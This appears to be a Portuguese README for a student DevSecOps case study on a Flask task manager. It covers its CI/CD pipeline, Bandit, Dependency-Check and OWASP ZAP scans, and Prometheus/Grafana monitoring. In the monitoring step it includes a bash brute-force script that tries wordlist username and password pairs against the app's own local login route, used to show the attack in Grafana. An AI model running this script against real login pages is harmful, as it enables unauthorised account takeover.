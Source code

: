 ## INTRODUÇÃO

Este estudo de caso se refere a implementação e segurança de um sistema de gerenciamento de tarefas pessoais, integrando processos de SDLC, DevOps e DevSecOps para garantir eficiência e segurança.
<hr>


### ETAPA 1: PLANEJAMENTO E DEFINIÇÃO DE REQUISITOS

1. Clonar o projeto e instalar das dependências a partir do requiriments.txt:

```
Flask==2.3.2
Flask-Bcrypt==1.0.1
Flask-Login==0.6.3
Flask-SQLAlchemy==3.0.5
Flask-WTF==1.1.1
WTForms==3.1.1
Jinja2==3.1.2
werkzeug==2.3.3
coverage
python-dotenv
prometheus-flask-exporter
```
<br />

2. Construir o diagrama para entender o domínio do problema:

![dfd](https://github.com/user-attachments/assets/6809cba3-bd94-4042-beb3-96beb5435c44)

<hr>

### ETAPA 2: DESENVOLVIMENTO DO SISTEMA

**Branches:**
- `master`: produção  
- `development`: desenvolvimento  
- `staging`: homologação

**Ferramentas Utilizadas:**
- Visual Studio Code
- GitLab
- Docker
- Python
- Pytest
- Unittest
- Zed Attack Proxy
- Bandit
- OWASP Dependency-Check
- OWASP ZAP
- Hydra
- Prometheus
- Grafana

1. Implementação do Dockerfile:

![dockerfile](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/dockerfile.png)

2. Aplicação executada na porta 5000:

![app](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/app.png)
<hr>

### ETAPA 3: IMPLEMENTAÇÃO DE UM PIPELINE CI/CD

1. Implementação do build e deploy na pipeline:

![gitlab](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/gitlabci.png)

2. Pipeline em execução no GitLab:

![pipeline-initial](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/pipeline-initial.png)
<hr>

### ETAPA 4: ANÁLISE ESTÁTICA DE CÓDIGO (SAST)

1. Implementação do Bandit na pipeline:

![bandit](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/bandit.png)

2. Artefato gerado mostrando dados sensíveis expostos na aplicação:

![artefact-bandit](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/artefact-zap-attack-tools.png)

3. Correção no código da falha capturada pelo Bandit:

![fix-bandit](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/fixenv.png)

4. Implementação do OWASP Dependency Check na pipeline:

![owasp-dependency_check](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/owasp-dependecy-check.png)

5. Artefato gerado com vulnerabilidades no código JavaScript:

![artefact-dependency](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/artifect-dependency-check.png)
<hr>

### ETAPA 5: ANÁLISE DINÂMICA DE SEGURANÇA (DAST)

1. Foi utilizada a aplicação Zed Attack Proxy (ZAP) para fazer uma varredura rápida na aplicação:

![zed](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/zap-attack-tools.png)

2. Artefato gerado mostrando as vulnerabilidades e níveis de risco:

![artefact-zed](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/artefact-zap-attack-tools.png)
<hr>

### ETAPA 6: ENTREGA CONTÍNUA (CD)

1. Implementação da etapa de revisão de código na pipeline:

![review](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/review-pipeline.png)

2. Implementação do OWASP ZAP para executar em toda a pipeline na homologação:

![owasp-zap](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/images/dast.png)
<hr>

### ETAPA 7: MONITORAMENTO

1. Implementação do Prometheus e Grafana na produção:

![prometheus-grafana](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/grafana-prometheus.png)

2. Implementação do ataque de força bruta em bash:

```
#!/bin/bash

URL="http://localhost:5000/login"   
USERNAMES="usernames.txt"        
PASSWORDS="passwords.txt"       

if [[ ! -f "$USERNAMES" || ! -f "$PASSWORDS" ]]; then
  echo "Os arquivos usernames.txt ou passwords.txt não foram encontrados."
  exit 1
fi

while IFS= read -r username; do
  while IFS= read -r password; do
    echo "Tentando login com Username: $username e Password: $password"    
 
    response=$(curl -s -X POST -d "username=$username&password=$password" "$URL")    
   
    if [[ $response == *"Login successful"* ]]; then
      echo "SUCESSO! Username: $username | Password: $password"
      exit 0
    fi
  done < "$PASSWORDS"
done < "$USERNAMES"
```
<br />
   
3. Acompanhamento pelo Grafana com o ataque de bruta force em execução na rota de login:

![monitory](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/monitory.png)
<hr>

### ETAPA 8: FEEDBACKS

1. A aplicação é antiga e precisou que algumas bibliotecas fossem atualizadas;
   
2. Foi corrigida uma das vulnerabilidades críticas capturada pelo bandit;
   
3. Testes funcionais e de integração foram implementados na etapa de homologação 
   
4. A pipeline foi testada de ponta a ponta, do desenvolvimento a homologação e produção:

![pipeline_full](https://github.com/gustavomob/devsecops-taskmanager/tree/main/images/pipeline-finished.png)

<br />

